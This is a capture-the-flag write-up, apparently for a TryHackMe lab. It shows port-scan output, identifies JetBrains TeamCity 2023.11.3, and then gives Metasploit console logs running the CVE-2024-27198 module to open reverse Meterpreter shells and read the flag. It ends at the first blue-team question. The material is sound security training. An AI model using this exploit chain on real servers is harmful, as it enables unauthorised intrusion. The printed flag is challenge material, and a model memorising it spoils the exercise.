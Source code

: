 ![](../../../assets/images/Pasted%20image%2020251031112046.png)

---
# Method 1
### Enumeration
`Nmap`
```js
 .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/user/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.201.125.63:22
Open 10.201.125.63:80
Open 10.201.125.63:50000
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-11-01 11:10 UTC
Initiating Ping Scan at 11:10
Scanning 10.201.125.63 [2 ports]
Completed Ping Scan at 11:10, 0.34s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 11:10
Completed Parallel DNS resolution of 1 host. at 11:10, 0.06s elapsed
DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 11:10
Scanning 10.201.125.63 [3 ports]
Discovered open port 22/tcp on 10.201.125.63
Discovered open port 80/tcp on 10.201.125.63
Discovered open port 50000/tcp on 10.201.125.63
Completed Connect Scan at 11:10, 0.29s elapsed (3 total ports)
Nmap scan report for 10.201.125.63
Host is up, received syn-ack (0.32s latency).
Scanned at 2025-11-01 11:10:46 UTC for 0s

PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack
80/tcp    open  http    syn-ack
50000/tcp open  ibm-db2 syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.71 seconds
```

---
There is one login page on port `50000`

![](../../../assets/images/Pasted%20image%2020251101164357.png)

![](../../../assets/images/Pasted%20image%2020251101170127.png)

I just Noticed Version `2023.11.3` so searched it immediately and found this on rapid7

![](../../../assets/images/Pasted%20image%2020251101170143.png)

then just searched on `msfconsole` and found it :

![](../../../assets/images/Pasted%20image%2020251101183337.png)

---
### Exploitation

i used 4th module from above list : 

```bash
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> set LHOST 10.8.31.47
LHOST => 10.8.31.47
[msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.ZmR4bUVYVzdQLVdJLUo4MHVGS0hYbmdUSllz.NmE3ZGY0MzItMTk4Yi00Y2VjLWEwODgtYmFiMDE1MGNiMzQ3
[*] Uploading plugin: m7WplZt9
[*] Sending stage (58073 bytes) to 10.201.125.63
[*] Deleting the plugin...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_m7WplZt9
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/m7WplZt9
[*] Meterpreter session 1 opened (10.8.31.47:4444 -> 10.201.125.63:54264) at 2025-11-01 11:40:06 +0000
[*] Deleting the authentication token...
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/m7WplZt9' on the target
```

and i got shell : 

```js
msf](Jobs:0 Agents:0) exploit(multi/http/jetbrains_teamcity_rce_cve_2024_27198) >> exploit 
[*] Started reverse TCP handler on 10.8.31.47:4445 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.11.3 (build 147512) running on Linux.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.cUdvN1duVmp3RVJQal9aZ2IyTUVCLVExQmRF.OTVkY2U3YzEtZjgwZC00MzIwLWI5ZmUtZjFmN2ZjODZkYzdm
[*] Uploading plugin: ZPYR1Toq
[*] Sending stage (58073 bytes) to 10.201.63.63
[*] Deleting the plugin...
[*] Deleting the authentication token...
[+] Deleted /opt/teamcity/TeamCity/work/Catalina/localhost/ROOT/TC_147512_ZPYR1Toq
[+] Deleted /home/ubuntu/.BuildServer/system/caches/plugins.unpacked/ZPYR1Toq
[*] Meterpreter session 2 opened (10.8.31.47:4445 -> 10.201.63.63:40768) at 2025-11-01 12:59:30 +0000
[!] This exploit may require manual cleanup of '/opt/teamcity/TeamCity/webapps/ROOT/plugins/ZPYR1Toq' on the target

(Meterpreter 2)(/opt/teamcity/TeamCity/bin) >

```

and found flag in `/home/ubuntu`

```js
(Meterpreter 2)(/home/ubuntu) > ls
Listing: /home/ubuntu
=====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
040777/rwxrwxrwx  4096  dir   2025-11-01 11:54:58 +0000  .BuildServer
000667/rw-rw-rwx  0     fif   2025-11-01 11:52:59 +0000  .bash_history
100667/rw-rw-rwx  220   fil   2020-02-25 12:03:22 +0000  .bash_logout
100667/rw-rw-rwx  3771  fil   2020-02-25 12:03:22 +0000  .bashrc
040777/rwxrwxrwx  4096  dir   2024-07-02 09:39:13 +0000  .cache
040777/rwxrwxrwx  4096  dir   2024-08-02 08:54:48 +0000  .config
040777/rwxrwxrwx  4096  dir   2024-07-02 09:40:18 +0000  .local
100667/rw-rw-rwx  807   fil   2020-02-25 12:03:22 +0000  .profile
100667/rw-rw-rwx  66    fil   2024-07-02 09:59:35 +0000  .selected_editor
040777/rwxrwxrwx  4096  dir   2024-07-02 09:38:50 +0000  .ssh
100667/rw-rw-rwx  0     fil   2024-07-02 09:39:21 +0000  .sudo_as_admin_successful
100667/rw-rw-rwx  214   fil   2024-07-02 09:46:35 +0000  .wget-hsts
100666/rw-rw-rw-  38    fil   2025-11-01 13:13:38 +0000  flag.txt

(Meterpreter 2)(/home/ubuntu) > cat flag.txt
THM{faa9bac345709b6620a6200b484c7594}
```

---

### Blue Team Part

so the first question is `What is the name of the backdoor user which was created on the server after exploitation?`

so i just selected all time here 

![](attachments/Pasted%20image%2020251101190153.png)